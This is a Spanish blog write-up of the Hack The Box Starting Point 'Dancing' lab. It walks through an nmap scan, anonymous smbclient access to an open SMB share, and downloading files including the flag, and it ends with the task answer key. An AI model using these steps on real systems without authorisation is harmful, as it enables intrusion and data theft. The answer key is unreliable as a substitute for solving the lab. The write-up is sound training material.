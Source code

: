 ```yaml
---
title: Hack The Box - Starting Point - Tier 0 - Dancing Writeup
date: 2022-08-09 09:20:00 +0800
categories: ["Hack The Box"]
tags: [htb, writeups]     # TAG names should always be lowercase
---
```


Este post forma parte de la serie **Tier 0** del **Starting Point** de [HTB](https://app.hackthebox.com/starting-point) que iniciamos [aquí]({% post_url 2022-08-09-htb-writeup-tier0-meow %}).

## Dancing

El primer paso será iniciar la máquina (para lo que previamente tendremos que tener establecida nuestra conexión VPN)

![](/assets/posts/20220809/img04.png)

Copiamos la IP del equipo remoto, en mi caso *10.129.186.250*, y lanzamos un **nmap**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ nmap -A 10.129.186.250 -oN nmap_output
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-09 12:34 CEST
Nmap scan report for 10.129.186.250
Host is up (0.081s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2022-08-09T14:35:07
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
|_clock-skew: 3h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.54 seconds
```

Significado de las flags:

* `-A`&nbsp;: escaneo completo (aka agresivo) que ejecuta OS detection, version detection, script scanning y traceroute todo del tirón.
* `-oN`&nbsp;: imprime la salida en un fichero de texto con el nombre *nmap_output*

Tenemos el puerto *445/tcp* abierto (SMB) y con el servicio *microsoft-ds* escuchando.

Utilizamos **smbclient** para conectarnos y sacar un listado de los recursos disponibles con el comando ```-L```&nbsp;. Como no tenemos password, cuando nos la pide le damos al Enter.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ smbclient -L 10.129.186.250
Password for [WORKGROUP\ewan67]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.186.250 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Probamos a conectarnos a cada uno de los recursos que aparecen en el listado anterior a ver si alguno nos deja entrar sin contraseña. (Spoiler: el único que rula es el último).

Una vez dentro, brujuleamos y nos descargamos lo que nos parezca interesante.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ smbclient \\\\10.129.186.250\\WorkShares
Password for [WORKGROUP\ewan67]:
Try "help" to get a list of possible commands.
smb: \> ls -la
NT_STATUS_NO_SUCH_FILE listing \-la
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

                5114111 blocks of size 4096. 1732567 blocks available
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 11:08:24 2021
  ..                                  D        0  Mon Mar 29 11:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 12:00:37 2021

                5114111 blocks of size 4096. 1732567 blocks available
smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.3 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

                5114111 blocks of size 4096. 1732440 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \James.P\>
```

En nuestro directorio de trabajo tendremos descargado el fichero *flag.txt* con la bandera correspondiente.

## Respuestas:

* <strong>Task 1</strong>: Server Message Block
* <strong>Task 2</strong>: 445
* <strong>Task 3</strong>: microsoft-ds
* <strong>Task 4</strong>: -L
* <strong>Task 5</strong>: WorkShares
* <strong>Task 6</strong>: get